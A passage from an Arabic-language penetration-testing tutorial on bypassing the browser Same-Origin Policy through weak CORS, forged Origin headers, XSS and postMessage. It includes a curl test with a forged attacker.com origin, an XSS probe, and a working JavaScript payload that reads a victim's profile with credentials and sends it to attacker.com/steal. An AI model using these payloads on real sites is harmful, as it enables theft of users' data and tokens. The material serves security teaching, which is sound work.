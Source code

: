 #### **الخلاصة بالعامية**:
تجاوز SOP يعني تخلّي موقعك يقرأ بيانات من موقع تاني زي البنك. أسهل طريقة هي إنك تلاقي CORS ضعيف أو XSS. لو الموقع بيدعم JSONP أو فيه PostMessage مفتوح، استغله. جرب كل حاجة زي Subdomains أو WebSockets، واستخدم Burp عشان تشوف الثغرة بسرعة.

---

### **3. تحليل الحمايات وتجاوزها**
المواقع الحديثة بتحط حمايات ضد تجاوز SOP، وكـ Pentester لازم تختبرها بعمق.

#### **أنواع الحمايات**:
1. **CORS مشدد**:
   - الموقع بيحدد نطاقات معينة في `Access-Control-Allow-Origin` (مش `*`).
   - **التجاوز**: ابحث عن نطاقات فرعية ضعيفة أو ثغرات XSS.
2. **التحقق من Origin**:
   - الموقع بيتحقق من رأس `Origin` في الطلب.
   - **التجاوز**: جرب إرسال طلب بدون Origin أو بـ Origin مزيف.
3. **SameSite Cookies**:
   - Cookies معمولها `SameSite=Strict` بتمنع إرسالها مع طلبات خارجية.
   - **التجاوز**: استخدم XSS عشان تنفذ الطلب من داخل الموقع.
4. **إعدادات PostMessage مشددة**:
   - الموقع بيتحقق من مصدر الرسائل في `postMessage`.
   - **التجاوز**: ابحث عن كود مش بيحقق المصدر.

#### **اختبار عملي**:
- **اختبار CORS**:
  - أرسل طلب بـ Origin مزيف:
    ```bash
    curl -H "Origin: https://attacker.com" https://example.com/api/data
    ```
  - لو الاستجابة رجعت `Access-Control-Allow-Origin: https://attacker.com`، يبقى فيه ثغرة.
- **اختبار XSS**:
  - جرب إدخال `<script>alert(1)</script>` في حقول الإدخال.
  - لو نجح، استخدم كود زي اللي في القسم السابق.
- **اختبار PostMessage**:
  - استخدم DevTools لفحص كود JavaScript بيستخدم `postMessage`.
  - جرب إرسال رسالة خبيثة زي المثال السابق.

#### **الخلاصة بالعامية**:
الموقع لو حاطط حماية زي CORS مشدد أو SameSite، جرب تلاقي فتحة زي XSS أو JSONP. فحّص كل حاجة زي PostMessage أو Subdomains. لو لقيت كود JavaScript مفتوح أو CORS بيسمح بـ `*`، استغله. الأدوات زي Burp وZAP هتسهل عليك.

---

### **4. سيناريوهات تجاوز Same-Origin Policy**

#### **سيناريو 1: استغلال CORS ضعيف**
- **الوصف**: موقع بيرجّع `Access-Control-Allow-Origin: *` مع بيانات حساسة.
- **الاستغلال**:
  - اعمل صفحة HTML تبعت طلب للـ API:
    ```html
    <script>
      fetch('https://example.com/api/user-profile', { credentials: 'include' })
        .then(r => r.json())
        .then(data => fetch('https://attacker.com/steal?data=' + encodeURIComponent(JSON.stringify(data))));
    </script>
    ```
  - الضحية لما يزور صفحتك، البيانات (زي الإيميل أو التوكن) هتتسرق.
